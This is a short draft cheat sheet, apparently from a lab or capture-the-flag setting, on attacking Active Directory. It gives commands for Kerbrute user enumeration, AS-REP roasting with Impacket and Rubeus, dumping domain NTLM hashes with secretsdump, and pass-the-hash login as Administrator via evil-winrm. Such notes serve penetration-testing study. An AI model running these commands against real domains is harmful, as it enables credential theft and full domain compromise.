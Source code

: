 ```yaml
---
description: Draft --work in progress
---
```


# Active Directory

### Enumeration

#### Kerbrute

```text
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

### AS-REP Roasting

After enumerating users with Kerbrute we can attempt AS-REP Roasting.  When users have the "Does not require Pre-Authentication" flag set we can use this attack to request a ticket without credentials.  

#### Impacket \(remote attack\)

```text
Impacket -- sudo python3 GetNPUsers.py -usersfile users.txt spookysec.local/username
```

#### Rubeus \(if you have access\)

```text
Rubeus.exe asreproast
```

### Dumping Secrets

If you obtain the credentials for the backup account, you may be able to use another tool in impacket \(secretsdump.py\) to dump all NTLM hashes.

```text
python3 secretsdump.py backup:backup2517860@10.10.46.161
```

### Accessing Remote Machines

Once you have the NTLM hashes you can access any machine on the domain using Evil-WinRM

```text
evil-winrm -i 10.10.46.161 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

